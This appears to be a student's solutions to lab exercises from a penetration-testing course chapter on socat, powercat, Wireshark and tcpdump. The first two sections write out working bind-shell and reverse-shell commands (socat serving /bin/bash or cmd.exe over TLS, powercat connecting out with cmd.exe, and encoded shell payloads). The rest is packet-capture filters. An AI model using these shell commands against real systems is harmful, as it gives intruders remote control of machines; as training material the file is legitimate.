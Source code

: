 = Solutions to exercises from Chapter 4: Practical Tools

== 4.2.4.1

1. `socat TCP4-LISTEN:4444,fork file:/usr/share/powercat/powercat.ps1`
2. `openssl req -newkey rsa:2048 -nodes -keyout output.key -x509 -days 365  -out output.crt && \
    cat output.key output.crt > output.pem && \
    socat OPENSSL-LISTEN:443,cert=output.pem,verify=0,fork EXEC:/bin/bash`
3. `socat OPENSSL-LISTEN:443,cert-output.pem,verify=0,fork EXEC:cmd.exe,pipes` creates an encrypted bind shell from Windows
4. Running unencrypted seems to be detected and blocked by Windows firewall

== 4.3.8.1

1. `powercat -c 192.168.119.224 -p 443 -e cmd.exe`
2. `powercat -l  -p 443 -e cmd.exe`. Yes, it is possible to connect locally, as long as port 443 is used
3. `powercat -l -p 443 -e cmd.exe -ge > encodedbindshell.ps1` for bind shell
   `powercat -c 192.168.119.224 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1` for reverse shell

== 4.4.5.1

1. To capture activity, we use filter `host 10.11.1.217 and port 110`
2. The three-way handshake is happening over TCP.
3. Login attempt from Wireshark TCP stream looks like
```
+OK example.com Cyrus POP3 v2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 server ready <1257769200.1596467546@example.com>
login
-ERR Unrecognized command
user anonymous
+OK Name is a valid mailbox
```
4.Display filter is `tcp.port == 110`

5.Capture filter is `port 110`

== 4.5.3.1

1. `tcpdump -n -i tun0` to listen to traffic on the VPN tunnel
2. `tcpdump -n -i tun0 -X` shows the content of each packet
3. `tcpdump -r /root/hashes/password_cracking_filtered.pcap 'tcp[13]=12'`
4. `tcpdump 'tcp[tcpflags] & (tcp-ack|tcp-push) != 0' -r /root/hashes/password_cracking_filtered.pcap`
